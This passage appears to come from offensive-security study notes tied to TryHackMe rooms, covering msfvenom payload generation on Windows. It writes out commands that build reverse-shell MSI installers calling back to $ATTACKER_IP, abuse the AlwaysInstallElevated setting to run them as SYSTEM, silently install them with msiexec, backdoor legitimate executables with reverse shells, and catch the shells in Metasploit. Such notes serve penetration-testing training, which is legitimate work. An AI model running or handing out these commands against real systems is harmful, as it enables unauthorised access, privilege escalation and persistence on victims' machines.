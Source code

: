 System-specific shell codes can also be produced by appropriately varying the `-f` option.

#### Additional Resources
* [Shell to Meterpreter Upgrade](https://www.infosecmatter.com/metasploit-module-library/?mm=post/multi/manage/shell_to_meterpreter)
* [TryHackMe: Weaponization](https://tryhackme.com/room/weaponization)
* [Exploiting HTML Applications](./Exploiting%20HTML%20Applications.md)
* [TryHackMe: Windows Privilege Escalation](https://tryhackme.com/room/windowsprivesc20)

### 32-Bit Windows Programs
By default, msfvenom produces 64-bit executables when using the `-f exe`. This doesn’t work, however, if you’re trying to replace a program in Program Files (x86). In this case, you’ll need to explicitly instruct msfvenom to encode a 32-bit binary using  `-e x86/shikata_ga_nai`.

#### Additional Resources
* [How do you send a 64 bit meterpreter stager?](https://security.stackexchange.com/a/83410)

### Malicious MSI Files
If `AlwaysInstallElevated`  is set to 1 under both of the following registry keys, then MSI installers will run as SYSTEM.

```powershell
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

Generate a malicious MSI file with msfvenom:

```bash
msfvenom -p windows/x64/shell_reverse_tcp \
	LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT \
		-f msi -o $INSTALLER.msi
```

Then install on the target to get a shell:

```powershell
msiexec /quiet /qn /i $INSTALLER.msi
```

#### Additional Resources
* [TryHackMe: Windows Privilege Escalation](https://tryhackme.com/room/windowsprivesc20)

### Backdooring Executables
```bash
msfvenom -a x64 --platform windows -x $UNMODIFIED_EXE_NAME \
         -k -p windows/x64/shell_reverse_tcp \
         LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT \
         -b "\x00" -f exe -o $BACKDOOR_EXE_NAME
```

#### Additional Resources
* [TryHackMe: Windows Local Persistence](https://tryhackme.com/room/windowslocalpersistence) 

## Catching Shells
Use the `exploit/multi/handler` module in Metasploit to catch the shells produced using msfvenom. Note that you’ll need to use `set payload` to tell Metasploit *what* it’s catching — for example, `windows/meterpreter/reverse_tcp`. We can catch both regular reverse shells and meterpreter sessions this way.

### Additional Resources
* [TryHackMe: Weaponization](https://tryhackme.com/room/weaponization)
